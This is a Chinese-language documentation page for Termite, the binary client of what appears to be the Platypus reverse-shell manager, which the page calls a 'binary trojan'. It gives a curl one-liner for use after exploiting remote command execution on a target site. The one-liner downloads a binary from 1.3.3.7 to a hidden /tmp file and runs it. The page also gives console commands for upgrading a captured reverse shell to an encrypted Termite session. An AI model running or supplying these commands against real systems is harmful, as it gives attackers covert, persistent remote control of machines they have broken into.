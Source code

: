 # Termite

## Termite 是什么？

Termite 是 Platypus 提供的一个二进制客户端，提供了多种有用功能，如：

* 完全交互式 Shell（使用就像 SSH 一样丝滑），并且可以同时启动多个 Shell 而互不影响。
* 4 种不同的[隧道](./08-tunnel.md)功能
* 更加稳定可靠的文件操作

## 直接获取 Termite Shell

当您在目标网站已经发现了一个远程命令执行漏洞的时候，可以执行通过执行如下命令直接生成 Termite Shell。

```bash
curl -fsSL http://1.3.3.7:13339/termite/1.3.3.7:13337 -o /tmp/.H0Z9 && chmod +x /tmp/.H0Z9 && /tmp/.H0Z9
```

## 升级至 Termite（推荐）

当您已经获得了一个反向 Shell 之后，强烈建议您使用 `Upgrade` 命令将其升级为更稳定可靠并且提供加密机制等其他非常有用的功能的 Termite Shell。

!!! Termite
    Termite 是 Platypus 的二进制木马，提供流量加密、交互式 Shell 等功能。

当您已经使用 `Jump` 命令跳转到目标 Shell 之后，您可以使用如下命令来将当前的明文 Shell 提升为更加可靠的 Termite，稍等片刻，您将会看到一个带有 `[Encrypted]` 标记的 Shell 上线。

```
» Jump d2958c94f5425eb709fb5c8690128268
» Upgrade 1.3.3.7:13337
```

您也可以通过 Web 界面来升级到 Termite。

![](/images/webui/upgrade.gif)

与 Termite 交互的逻辑与通常的反向 Shell 一致，即：`Jump` 然后 `Interact`。
